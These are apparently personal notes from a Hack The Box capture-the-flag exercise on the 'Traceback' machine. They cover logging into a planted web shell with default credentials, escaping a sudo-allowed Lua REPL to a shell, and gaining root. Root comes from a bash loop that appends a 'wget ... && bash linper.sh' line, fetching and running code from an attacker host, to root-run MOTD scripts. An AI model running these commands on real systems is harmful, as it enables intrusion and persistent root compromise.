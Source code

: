 # Traceback (10.10.10.181) 

## Recon

### 80/TCP HTTP

Landing page source code contains "Some of the best web shells that you might need" reference. Creating a wordlist of shells from https://github.com/TheBinitGhimire/Web-Shells and using dirb

Found http://traceback.htb/smevk.php

Default credentials are admin:admin, https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php

## Initial Access

Gained access to the web shell via admin:admin at Wed 18 Mar 2020 06:57:24 AM UTC

Uploaded and executed a php shell at Wed 18 Mar 2020 07:24:45 AM UTC

## Privilege Escalation

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit

https://github.com/luvit/luvit
	
	uv.setuid(id)
	uv.setgid(id)

Can run Lua code

`os.execute("/bin/sh")`

The box is inaccessible (for the last 15-30 minutes), stopping for the night at Wed 18 Mar 2020 08:16:43 AM UTC 
coming back to this at Thu 19 Mar 2020 04:25:01 AM UTC

Got sysadmin at Thu 19 Mar 2020 04:39:49 AM UTC
```
webadmin@traceback:/dev/shm$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh")
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```

`-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping`

Ping has SUID? Tried command injection, could not get it to work.

OpenSSH_7.6p1 Ubuntu-4ubuntu0.3, OpenSSL 1.0.2n  7 Dec 2017
	no immediate vulnerabilities

After some additional recon, I realized the SUID on ping is not out of the ordinary

Looking over privesc script outputs some more

Both .luvit_history are global read
Sudo is outdated, trying exploits/linux/local/25134.c
	gcc is not installed

After Google traceback to get an idea of what it means, I come across error traceacks in python. I remember seeing a stray python file somewhere on this file system. Investigating.
	privesc/linenum-sysadmin.report:-rw-rw-rw- 1 webadmin webadmin 35 Mar 18 21:32 /tmp/asdf.py - no longer there
	/etc/python3.6/sitecustomize.py - maybe?
```
sysadmin@traceback:~$ find / $(pwd) -type f -name "*.py*" -newermt 2019-03-01 ! -newermt 2019-04-01 2> /dev/null
/usr/lib/python3/dist-packages/ufw/common.py
/usr/lib/python3/dist-packages/distro_info.py
/usr/share/apport/package-hooks/openssh-client.py
/usr/share/apport/package-hooks/source_grub2.py
/usr/share/apport/package-hooks/source_shadow.py
/usr/share/apport/package-hooks/openssh-server.py
```

Apport does not seem to be installed

```
sysadmin@traceback:~$ find /usr/lib/python* | grep apport 2> /dev/null
sysadmin@traceback:~$
```

/home/sysadmin/pspy64
	https://pypi.org/project/fs-watcher/
```
^CExiting program... (interrupt)
sysadmin@traceback:~$ ./pspy64
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100msand on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Owned by root
	
It looks like I can edit the MOTD in /etc/update-motd.d/ and have it execute as root if someone log's into the box but I am having touble getting it to work. Will come back to it later.

After looking over my notes, I realized gcc is installed but the path in the exploit has to be modified. I have done so. Trying that exploit. Nevermind, it has something to do with python.

## Privelege Escalation & Persistence

Trying to exploit MOTD banner, creating payload that I can just run and wait

```
#!/bin/bash
while true
do
	for i in $(ls /etc/update-motd.d/)
	do
		cd /etc/update-motd.d/
		echo "wget  http://10.10.15.6:8000/linper.sh && bash linper.sh" >> $i
    done
done
```

Got root!

This seems to have been the user that logged in via SSH and triggred the exploit, interesting because it is not one needed to compromise (automated logins?). Could be unrelated.

```
root@traceback:~# w
w
 22:04:29 up 21 min,  1 user,  load average: 83.12, 24.41, 8.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
webadmin pts/2    10.10.14.34      21:56   10.00s  0.07s  0.01s sshd: webadmin [priv]
```